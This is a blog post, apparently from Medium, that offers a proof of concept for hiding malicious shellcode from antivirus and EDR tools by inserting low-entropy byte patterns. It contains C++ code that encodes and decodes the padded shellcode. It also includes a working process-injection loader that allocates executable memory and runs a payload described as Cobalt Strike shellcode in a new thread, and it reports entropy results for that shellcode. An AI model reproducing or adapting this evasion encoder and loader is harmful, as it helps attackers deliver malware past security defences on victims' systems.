

# :skull: The more predictable you are, the less you get detected - hiding malicious shellcodes via Shannon encoding

---




*Shellcode detection evasion pipeline.*


# The more predictable you are, the less you get detected — hiding malicious shellcodes via Shannon encoding

## The more predictable you are, the less you get detected

Recently I publish a small PoC on Github about a way of hiding malicious shellcode in PE by lowering its entropy.

Entropy is the measure of the randomness in a set of data (here: shellcode). The higher the entropy, the more random the data is. Shannon Entropy is an algorithm that will produce a result between 0 and 8, where 8 means there is no pattern in the data, thereby it’s very random and 0 means data follows a pattern.

## The problem with high entropy shellcode

The entropy of malicious code grows as it is packed or obfuscated. Indeed, studies have shown that entropy may be utilized to successfully distinguish between non-malicious and malicious code based on its entropy. According to Cisco: *Developing a database of the normal range of entropy values for image files would help threat researchers and incident response teams in more quickly identifying those files where suspicious data transfer was occurring.* Malicious samples have an entropy of over 7.2, whereas normal software has an entropy of 4.8 to 7.2. In 30% of malicious samples, the entropy will be close to 8, whereas only 1% of harmless code will have this value. More than half of malicious samples will have an entropy of more than 7.2, but only one out of every ten normal programs will have this level of entropy. To summarize, not all malicious samples (though the most majority will) have high entropy, and not all valid programs will have low entropy (but the majority will). The fact that packing is a genuine strategy for reducing the size of executables and protecting resources, and many programs take advantage of it, explains why legal samples can have high entropy.

## Avoiding high entropy algorithms

During my research, I noticed that the default Cobalt Strike shellcode has an entropy of 7.4, that is high! There are many possibilities to obfuscate the code, by using an algorithm that does not increase entropy (like XORing and Base64 encoding). This last one I think is the more convenient, which does not mean that is perfect. XORing as well as Base64 encoding can be easily decrypted to unmask the real purpose of the code. Also signatures can be created directly, both against the XORed as well as the Base64 encoded data. Finally, Some anti-malware solutions can even decode these simple schemes during the emulation phase of the analysis.

## The solution

If randomness is the issue, why not try to mask the harmful obfuscated code by introducing patterns that diminish unpredictability and hence global entropy? This manner, you are not restricted to using basic techniques to obfuscate code and remain undetected by anti-malware solutions; also, the obfuscated code may be any size.

## How the PoC works

The concept is to divide the array into chunks and insert a low-entropy pattern of bytes between each chunk. When the sample is run, we must reconstruct the original payload in memory, bypassing the static detection of the high entropy code at this stage. It’s also worth noting that the low-entropy code to be inserted can follow a variety of patterns, and the amount of insertions can vary, thus it can be used to circumvent static signature detection. The second step is to combine the high entropy chunks of bytes with the low entropy chunks. Because, after all, we need to restore the obfuscated code to what it was initially in order to proceed to the de-obfuscation step, the third job will restore the original array of bytes by deleting the low entropy patterns.

```
#include <cstdio>
#include <Windows.h>
#include "Entropy.h"

using namespace std;

BYTE payload[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc8,0x00,0x00,0x00,0x41,0x51,0x41,0x50 ... 0x36,0x30,0x00,0x5e,0x2e,0x78,0x90 }; // Simulated high entropy code
constexpr int number_of_chunks = 5; // Number of chunks. You can randomize this too.
constexpr int chunk_size = sizeof payload / number_of_chunks; // Size of each chunk
constexpr int remaining_bytes = sizeof payload % number_of_chunks; // Remaining bytes after the last chunk is processed
BYTE lowEntropyShellcode[sizeof payload * 2 - remaining_bytes] = {0}; // array of bytes size calculation to contain the original high entropy code plus the low entropy inserts
constexpr int payload_size_after_entropy_reduction = sizeof payload * 2; // Total size of the reduced entropy payload
```

Notice that all of these calculations are stored in global variables and the high entropy code is also located in the global area of the code to assure that it will be stored in the data section of the executable but it could be perfectly located in the resources section and loaded at runtime too. You could even store the high entropy byte pattern inside the main function, however then the pattern would be stored in the .text section and it would be loaded in the stack and not in the heap as it happens when its stored in the data section or in the resources section. This is important because the stack can’t handle very big array of bytes and also some compilers complain about this when array is too big.

## Get kleiton0x7e’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

Next task is to divide the high entropy code in chunks and add the low entropy patterns:

```
PBYTE shannonEncode(PBYTE rawShellcode)
{
constexpr int max_n = 0xEF; //239
constexpr int min_n = 0x01; //1
char random_hex[chunk_size];
int encodedShellcodeOffset = 0;
int shellcodeOffset = 0;
const BYTE new_n = static_cast<BYTE>((rand() % (max_n + 1 - min_n) + min_n));
for (char& i : random_hex)
{
i = static_cast<char>(new_n);
}
for (size_t i = 0; i < number_of_chunks; i++)
{
for (size_t j = 0; j < chunk_size; j++)
{
lowEntropyShellcode[encodedShellcodeOffset] = rawShellcode[shellcodeOffset];
encodedShellcodeOffset++;
shellcodeOffset++;
}
for (const char k : random_hex)
{
lowEntropyShellcode[encodedShellcodeOffset] = k;
encodedShellcodeOffset++;
}
}
if (remaining_bytes)
{
for (size_t i = 0; i < sizeof remaining_bytes; i++)
{
lowEntropyShellcode[encodedShellcodeOffset++] = rawShellcode[shellcodeOffset++];
}
}
for (int count = 0; count < sizeof(lowEntropyShellcode); count++) {
printf("0x%02X,", lowEntropyShellcode[count]);
}
return lowEntropyShellcode;
}
```

So lets explain this graphically. Suppose a byte belonging to a high entropy chunk is represented by the letter “H” and a low entropy byte belonging to a low entropy chunk is represented by the letter “L”, and the remaining never modified bytes are represented by the letter “R”

## Simple Shellcode Injection PoC

In order to inject the Shellcode in the process, it is important to bring this low-entroy shellcode back to it’s original state (high-entropy shellcode), by using the decoder script. After the decode, inject it using WinAPI or Syscalls into the desired process. A simple Syscall PoC is already published on my github repo and it is what I usually recommend to use, but if you find it confusing to understand/use, the below PoC is a Vanilla Shellcode Injection technique with WinAPI, which is easier to get familiar with:

```
#include <windows.h>
#include <stdio.h>

//low entropy encoded CS Shellcode (size:891*2)
unsigned char payload[] = { 0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC8,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,...,0x2A,0x2A,0x2A,0x2A,0x90 };
constexpr int cs_shellcode_length = 891; //the default length of high entropy default shellcode in cobalt strike. Change it if you are using another C2
constexpr int number_of_chunks = 5; //make sure it is the same number of chunks during the encoding process
constexpr int chunk_size = cs_shellcode_length / number_of_chunks;
constexpr int remaining_bytes = cs_shellcode_length % number_of_chunks;
constexpr int payload_size_after_entropy_reduction = cs_shellcode_length * 2;

PBYTE shannonDecode(PBYTE high_ent_payload)

{
constexpr int payload_size = (payload_size_after_entropy_reduction + 1) / 2;
BYTE lowEntropyPayload[payload_size_after_entropy_reduction] = { 0 };
memcpy_s(lowEntropyPayload, sizeof lowEntropyPayload, high_ent_payload, payload_size_after_entropy_reduction);
static BYTE restored_payload[payload_size] = { 0 };
int encodedShellcodeOffset = 0;
int shellcodeOffset = 0;

for (size_t i = 0; i < number_of_chunks; i++)
{
for (size_t j = 0; j < chunk_size; j++)
{
restored_payload[shellcodeOffset] = lowEntropyPayload[encodedShellcodeOffset];
encodedShellcodeOffset++;
shellcodeOffset++;
}

for (size_t k = 0; k < chunk_size; k++)
{
encodedShellcodeOffset++;
}
}

if (remaining_bytes)
{
for (size_t i = 0; i < sizeof remaining_bytes; i++)
{
restored_payload[shellcodeOffset++] = high_ent_payload[encodedShellcodeOffset++];
}
}
return restored_payload;
}

int main() {
//decode the low-entropy shellcode
const auto shellcode = shannonDecode(payload);

// here starts the Process Injection
// Alloc memory
LPVOID addressPointer = VirtualAlloc(NULL, cs_shellcode_length, 0x3000, 0x40);
// Copy shellcode
RtlMoveMemory(addressPointer, shellcode, cs_shellcode_length);
// Create thread pointing to shellcode address
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)addressPointer, NULL, 0, 0);
// Sleep for a second to wait for the thread
Sleep(1000);
return 0;
}
```

## Entropy Results

Note: The following results are only tested with CS Shellcode.

~ Raw default Cobalt Strike shellcode
(High-entropy) Normal: 7.062950
(Low-entropy) Encoded: 4.527140

~ XORed Cobalt Strike shellcode
(High-entropy) Normal: 4.583139
(Low-entropy) Encoded: 3.278284

## AV/EDR Scanning Results

High-Entropy (left side) vs Low-Entropy (right side) default CS Shellcode integrated with Syscalls (Syswhispers2):

## Disadvantage

While encoding, the size of the shellcode will be 2 times larger, making it easier for Blue Team/ Malware Analysis to detect such encoded shellcodes.

## Summary

It is straightforward to reduce the entropy of obfuscated malware code; it may be used to elude detection and, on top of that, it may provide some extra protection against signature formation. As Cyberbit states: *The lower the code entropy, the lower the chances are that the code has been obfuscated in any way.* The code described here can be modified to build solutions that assist avoid the use of entropy as a malware detection method. Using alternative mathematical equations and different sized low entropy chunks of code to create better low entropy byte patterns may improve the method’s reliability.

---
